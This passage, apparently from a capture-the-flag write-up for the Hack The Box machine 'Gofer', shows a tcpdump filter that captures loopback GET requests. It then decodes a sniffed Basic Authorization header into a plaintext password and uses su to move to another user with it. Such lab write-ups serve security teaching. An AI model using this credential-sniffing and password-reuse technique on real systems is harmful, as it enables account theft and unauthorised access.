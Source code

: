 
There are two ports contacted - someone on localhost talking to port 80, and
someone on local host talking to 631 (cups printing service).

#### GET Requests

ChatGPT helped me write this `tcpdump` command to just see GET request data,
and it works:

    
    
    jhudson@gofer:/etc/apache2$ sudo tcpdump -i any -nn -A 'tcp port 80 and (tcp[((tcp[12:1] & 0xF0) >> 2):4] = 0x47455420)'
    bash: sudo: command not found
    jhudson@gofer:/etc/apache2$ tcpdump -i any -nn -A 'tcp port 80 and (tcp[((tcp[12:1] & 0xF0) >> 2):4] = 0x47455420)'     
    tcpdump: data link type LINUX_SLL2
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
    14:10:01.986142 lo    In  IP 127.0.0.1.58472 > 127.0.0.1.80: Flags [P.], seq 1376021622:1376021785, ack 1661516285, win 512, options [nop,nop,TS val 3293898230 ecr 3293898230], length 163: HTTP: GET /?url=http:/
    /gofer.htb HTTP/1.1
    E....r@.@............h.PR.lvc..............
    .T...T..GET /?url=http://gofer.htb HTTP/1.1
    Host: proxy.gofer.htb
    Authorization: Basic dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=
    User-Agent: curl/7.74.0
    Accept: */*
    
    
    14:10:01.987970 lo    In  IP 127.0.0.1.58478 > 127.0.0.1.80: Flags [P.], seq 3083973505:3083973553, ack 4056441888, win 512, options [nop,nop,TS val 3293898232 ecr 3293898232], length 48: HTTP: GET / HTTP/1.1
    E..d..@.@.o..........n.P......d .....X.....
    .T...T..GET / HTTP/1.1
    Host: gofer.htb
    Accept: */*
    

There’s two GET requests there. First to `proxy.gofer.htb` requesting
`gofer.htb`, and then to `gofer.htb`. The first one has the `Authorization`
header, which is just the base64-encoded username then colon then password:

    
    
    jhudson@gofer:/etc/apache2$ echo "dGJ1Y2tsZXk6b29QNGRpZXRpZTNvX2hxdWFldGk=" | base64 -d
    tbuckley:ooP4dietie3o_hquaeti
    

### su / SSH

That password for tbuckley works as the password for the user on Gofer as
well:

    
    
    jhudson@gofer:/etc/apache2$ su - tbuckley
    Password: 
    tbuckley@gofer:~$
    